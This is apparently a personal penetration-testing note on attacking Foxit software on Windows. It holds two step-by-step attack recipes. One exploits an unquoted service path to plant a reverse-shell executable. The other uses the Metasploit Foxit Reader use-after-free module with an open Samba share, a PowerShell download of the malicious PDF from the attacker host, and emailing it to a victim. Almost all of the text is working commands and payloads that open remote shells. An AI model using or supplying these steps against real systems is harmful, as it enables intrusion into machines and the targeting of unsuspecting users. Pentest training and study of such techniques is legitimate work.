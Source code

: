 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Unquoted Service Path
https://www.exploit-db.com/exploits/36390

In winpeas.txt, we see the service name right above the unquoted service path:

![[Pasted image 20220321181308.png]]

```command prompt - windows 
sc qc FoxitCloudUpdateService
```

We see that are no quotes around the bin path line.

![[Pasted image 20220320180823.png]]

We can now start testing where in this path we have write privileges.  Tested an echo command in Program Files x86,  we get access denied.  Tested in Foxit Software, we are successful at writing out test file. 

```command prompt - windows
echo "test" > test.txt
```

We place our malicious Foxit.exe file in the Foxit Reader directory.

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=80 -f exe -o Foxit.exe
```

![[4._File Transfers#Certutil]]

![[___.Misc Commands#Restart host]]


#### PDF EXE

[https://prog.world/we-exploit-the-foxit-reader-vulnerability-and-bypass-the-digital-signature-on-the-example-of-the-neoquest-2020-task/](https://prog.world/we-exploit-the-foxit-reader-vulnerability-and-bypass-the-digital-signature-on-the-example-of-the-neoquest-2020-task/)

```bash - kali
sudo apt install samba
```

```bash - kali
sudo mkdir /mnt/files
```

```bash - kali
sudo chmod 777 /mnt/files
```

Now you need to configure the samba server. To do this, open the configuration file /etc/samba/smb.conf and paste the following text there:

```bash - kali
mousepad /etc/samba/smb.conf
```

```bash - kali
[global]  
security = user  
workgroup = MYGROUP  
server string = Samba  
guest account = nobody  
map to guest = Bad User

[share]  
path = /mnt/files  
browseable = Yes  
guest ok = Yes  
writeable = Yes  
public = yes  
```

```bash - kali
sudo service smbd restart
```

```bash - kali
sudo service nmbd restart
```

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=80 --arch x86 -f exe -o /mnt/files/exploit.exe
```

```bash - kali
sudo chmod 777 /mnt/files/exploit.exe
```

```bash - kali
sudo msfdb run
```

```bash - kali
use exploit/windows/fileformat/foxit_reader_uaf
```

```bash - kali
set LHOST $KALI
```

```bash - kali
set EXENAME exploit.exe
```

```bash - kali
set SHARE share
```

```bash - kali
run
```

```bash - kali
sudo cp /root/.msf4/local/test.pdf .
```


![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

![[rlwrap]]

Download update.pdf on already compromised machine (if you have one), then use email app to send to victim:
```powershell - target
powershell -c "(new-object System.Net.WebClient).DownloadFile('$KALI:80/test.pdf','C:/Users/$USER/Documents/tools/update.pdf')"
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
